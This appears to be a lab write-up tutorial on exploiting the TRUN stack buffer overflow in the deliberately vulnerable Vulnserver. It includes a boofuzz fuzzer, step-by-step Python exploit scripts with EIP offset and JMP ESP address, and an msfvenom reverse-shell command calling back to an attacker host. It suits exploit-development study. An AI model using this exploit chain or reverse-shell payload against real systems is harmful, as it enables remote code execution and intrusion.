

Vulnserver part 1: TRUN
Vulnserver is a Windows based threaded TCP server application that is designed to be exploited, can we figure out how to weaponize the TRUN command?
This post is a part of the OSED Prep series!
Setup
- vulnserver
- boofuzz and Python3
- x64dbg and mona.py for x64dbg
Or any other windows debugger with mona.py support.
- A windows system to host the vulnserver executable, alongside a *nix system.
Kali linux or anything with pentesting tools will work perfectly fine.
Initial Recon
During my initial scan of the network, port 9999 is quickly identified as being open via a basic nmap scan.
sudo nmap <IP> -Pn -n
| Flag | Description |
|---|---|
-Pn |
Disables host discovery |
-n |
Disables DNS lookups |
Lets connect via netcat, and explore some of the commands available to us.
nc <IP> <PORT>
For the purposes of this tutorial, I will be fuzzing the TRUN command. This application offers numerous exploitation paths, with this command being among the least difficult.
A small review of the source code denotes the possibility of a buffer overflow due to a unsafe strcpy() function call. Lets attempt to fuzz this command and see if our hypothesis is true.
Fuzzing TRUN
For the purposes of this tutorial I will be using boofuzz. You can find the fuzzing template below, which I have modified from philkeeble.
#!/usr/bin/python
from boofuzz import *
import time
################################################################
## Boofuzz template modified from https://github.com/philkeeble #
################################################################
## Function for grabbing the banner each time it connects
def get_banner(target, my_logger, session, *args, **kwargs):
## Set the function banner_template as the string we expect to see on connection
banner_template = b"Welcome to Vulnerable Server! Enter HELP for help."
try:
## Recieve buffer from the target
banner = target.recv(10000)
except:
## If nothing recieved from the target, print and exit
print("Unable to connect. Target is down. Exiting.")
exit(1)
## Printing to our log to let us know its recieving something
my_logger.log_check('Receiving banner..')
## Check that what we recieved contains the string we expected
if banner_template in banner:
my_logger.log_pass('banner received')
else:
## If it doesn't contain the string we expected, fail and exit
my_logger.log_fail('No banner received')
print("No banner received, exiting..")
exit(1)
## Main function
def main():
## This is a boofuzz standard piece of code and is on their docs as a template
session = Session(
sleep_time=1,
target=Target(
## This sets the connection host and port for vulnserver
connection=SocketConnection("10.0.2.15", 9999, proto='tcp')
),
)
## Setup request
s_initialize(name="Request")
with s_block("Host-Line"):
## Send TRUN command to vulnserver
s_static("TRUN", name='command name')
## Add a space after TRUN
s_delim(" ")
## After TRUN and the space, add the fuzzing payloads
s_string("FUZZ", name='trun variable content')
## Add a new line after the fuzzing payload (so that it sends)
s_delim("\r\n")
## Fuzzing
session.connect(s_get("Request"), callback=get_banner)
session.fuzz()
## Calls main
if __name__ == "__main__":
main()
After starting an instance of vulnserver on my windows VM, we can launch our fuzzing script in order to watch for any potential crashes.
Note: this boofuzz script does not have the logic implimented in order to detect a successful crash, so ensure that you are launching vulnserver within your debugger in order to catch your crash!
On the 83rd test case, x64dbg announced that an exception had occurred. A quick glance at the state of our registers reveals an interesting discovery, our EIP has been overwritten!
Further investigation shows that our stack pointer (ESP) now points to 2F2E2F2E, which is the content of our payload. This means that we now have control of our programs execution flow.
Finding the offest
While it is great news that we have control over our programs stack, we need to figure our the exact offset within our payload that aligns with our EIP register. To do this, we will use mona.py to give us a unique pattern, which will allow us to find the exact offset of characters grants control of the EIP register.
While boofuzz utilized a buffer with a size of 10700, the source code proves that such a large size is unnecessary. Lets create a pattern with a length of 5000 to test our offset.
#For x64dbg
import python
mona.mona("config -set workingfolder c:\mona")
mona.mona("pc 5000")
#For immunity debugger / windbg
!mona config -set workingfolder c:\mona
!mona pc 5000

Using the template below, enter your generated pattern and run the exploit against a new instance of vulnserver.
Note: the commented out sections will be utilized in later stages of the exploit.
#!/usr/bin/python3
import sys, socket
from time import sleep
RHOST = '10.0.2.15'
RPORT = 9999
pattern = b"ENTER YOUR PATTERN HERE!"
## offset = 2003
## EIP = ""
## nops = b"\x90" * 32
## buf = b""
## badc = b""
## Finding the offset
payload = pattern
## Verify control
## payload = b"A" * offset + EIP + "\xCC"
## Final stage
## payload = b"A" * offset + EIP + nops + buf
try:
## Payload options
exploit = b"TRUN /." + payload
## exploit = shellcode + b"\r\n"
## exploit = shellcode
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send((exploit))
s.recv(1024)
s.close()
print("Buffer sent")
except:
print ("Error connecting to server")
sys.exit()
Take note of your new EIP value after execution, which we will now pass into mona in order to determine its offset within the pattern.
#For x64dbg
mona.mona("po <ENTER YOUR EIP RESULT HERE>")
#For immunity debugger / windbg
!mona po <ENTER YOUR EIP RESULT HERE>

In my case, mona determined the value of 2005 to be my unique offset. Lets modify our python POC in order to confirm that mona has determined the correct value.
#!/usr/bin/python3
import sys, socket
from time import sleep
RHOST = '10.0.2.15'
RPORT = 9999
## pattern = b""
offset = 2005
EIP = b"B" * 4
## nops = b"\x90" * 32
## buf = b""
## badc = b""
## Finding the offset
#payload = pattern
## Verify control
payload = b"A" * offset + EIP
## Final stage
## payload = b"A" * offset + EIP + nops + buf
try:
## Payload options
exploit = b"TRUN /." + payload
## exploit = shellcode + b"\r\n"
## exploit = shellcode
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send((exploit))
s.recv(1024)
s.close()
print("Buffer sent")
except:
print ("Error connecting to server")
sys.exit()
After modifying our initial script, we should be able to manipulate our EIP to whatever address we desire.
Great! We have proven that by modifying the four bytes after our found offset, we can control EIP. The next step is to find a way to jump to our shellcode which is placed on the stack.
JMPing around memory
In order to execute our shellcode that resides on the stack after our EIP address, we need to somehow redirect our control flow to target the ESP register. Thankfully, mona includes a nifty command for sniffing out viable targets.
#For x64dbg
mona.mona("modules")
#For immunity debugger / windbg
!mona modules
After execution, mona will list out the loaded modules for our executable. As we are attempting to exploit the binary, we need to choose a module with minimal defense measures (such as ASLR). In this case, we will be choosing the included essfunc.dll. The vulnerable entry is highlighted in the image below.
Now that we have a target, we need to search this given library for a suitable address to point our EIP register to. As stated earlier, we wish to redirect our programs flow of execution to the stack. As a result, we will be searching for the assembly operation jmp, ESP.
#For x64dbg
mona.mona("jmp -r ESP -m essfunc.dll")
#For immunity debugger / windbg
!mona jmp -r ESP -m essfunc.dll
Rerun the previous script, replacing the 4 B characters with your found address. To make confirmation of control easier, place a breakpoint within your debugger. Alternatively, you can append the \xCC exception byte onto your payload, your choice!
To prove that we have control of the contents of execution after our jump, append a series of \x90 operations after our exception call. This will allow us to visually confirm that we can place shellcode after landing in our desired location!
Note: This programs address’s are stored in little endian format, so ensure your address is entered correctly!
#!/usr/bin/python3
import sys, socket
from time import sleep
RHOST = '10.0.2.15'
RPORT = 9999
## pattern = b""
offset = 2005
EIP = b"\xaf\x11\x50\x62"
nops = b"\x90" * 32
## buf = b""
## badc = b""
## Finding the offset
## payload = pattern
## Verify control
payload = b"A" * offset + EIP + b"\xCC" + nops
## Final payload
## payload = b"A" * offset + EIP + nops + buf
try:
## Payload options
exploit = b"TRUN /." + payload
## exploit = shellcode + b"\r\n"
## exploit = shellcode
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send((exploit))
s.recv(1024)
s.close()
print("Buffer sent")
except:
print ("Error connecting to server")
sys.exit()
After execution, our debugger throws an exception after landing at our jmp, ESP address due to our appended \xCC byte. We can also see the appended NOP slide that can be stepped into, confirming that our execution flow is entirely under our control!
Time to create a REAL exploit to prove that our POC is functionally sound.
Checking for bad eggs
Before creating our shell code, we must first check for bad characters. A easily understandable example is the character \x00. The reason that this character is so commonly excluded is due to it being utilized as the terminator for C style strings. If shell code were to include this character, it could disrupt the execution of the shell code by ending the buffer early.
To create an array of bad characters, use mona.py or find a list online. Note that we automatically assume \x00 is a bad character for the reasons noted above.
#For x64dbg
mona.mona("bytearray -cpb \\x00")
#For immunity debugger / windbg
!mona bytearray -cpb "\x00"
Modify the script by replacing your \x90 sled with your bad character array. If there are bad characters, they will display corruption within the memory dump.
Now that we have confirmed that there are no additional bad characters, we can move on to creating our shellcode.
Upgrading to shellcode
For the demonstration of this lab, I will be using a simple reverse shell as our payload. To generate shellcode, one can utilize the tool msfvenom.
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER IP> LPORT=<LOCAL PORT> EXITFUNC=thread -f python -a x86 -b "\x00"
This command will create reverse_tcp shell code, targeting the windows operation system. We will supply our attacking machine IP, alongside a chosen local port. We denote that we want the output to be pythonic, targeting the x86 architecture, while avoiding the \x00 bad character.
On your linux machine, run the following commands to setup a listener for your shellcode to call back to.
msfconsole
## Following commands are within the msfconsole
use exploit/multi/handler
set payload windows/shell_reverse_tcp
set LHOST <ATTACKER IP SET IN SHELLCODE>
set LPORT <ATTACKER LPORT SET IN SHELLCODE>
exploit
Finally, execute your final stage of your exploit in order to pop a shell!
The final fuzzing and exploitation templates can be found here
Soon, I will be covering the other vulnerable commands within vulnserver. Stay tuned!
References
https://help.x64dbg.com/en/latest/
XORMANCER
The eldritch tomb breathes as you unseal its ancient bindings, forgotten curses searing your mind as you ingest its forbidden knowledge.